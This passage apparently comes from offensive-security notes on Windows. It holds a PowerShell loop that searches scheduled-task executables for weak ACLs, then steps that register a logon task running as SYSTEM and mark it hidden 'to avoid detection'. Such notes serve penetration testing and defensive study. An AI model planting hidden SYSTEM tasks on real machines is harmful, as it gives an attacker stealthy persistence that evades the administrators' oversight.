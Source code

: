 ```powershell

        # Add ACL entries for matching
        $aclEntries = $acl -split "`n"
        $currentACL = $aclEntries | Where-Object { $_ -match ".*Allow.*" }
        
        # Check for matches in the ACL entries
        $matchingEntries = $currentACL | Where-Object { $_ -match ($patterns -join "|") }

        # If any matching ACL entry is found, write the task and matching ACLs to the Step 2 output file
        if ($matchingEntries.Count -gt 0) {
            "Executable: $executable" | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8
            $matchingEntries | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8
            "`n" | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8 # Add a newline for readability
        }
    }
    catch {
        # If an error occurs (e.g., if the executable path doesn't exist), log it to the output file
        "Failed to retrieve ACL for executable: $executable" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
        "`n" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
    }
}
```

#### Create a New Scheduled Task
1. Define the Task Action: Specifies the executable or script to run.
	```powershell
	$action = New-ScheduledTaskAction -Execute 'C:\Windows\System32\cmd.exe' -Argument '/c whoami > C:\Temp\whoami.txt'
	```
2. Define a Trigger: Specifies when the task should be triggered, e.g., on logon, system startup, etc.
	```powershell
	$trigger = New-ScheduledTaskTrigger -AtLogon
	```
3. Register the Task: Registers the new task with the system. In this example, it is registered under the SYSTEM account for higher privileges.
	```powershell
	Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "MyPersistentTask" -Description "A persistent scheduled task" -User "SYSTEM"
	```
- Create a Hidden Task: Hide the scheduled task to avoid detection.
    ```powershell
    $settings = New-ScheduledTaskSettingsSet -Hidden
    Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "MyPersistentTask" -Settings $settings -User "SYSTEM"
    ```
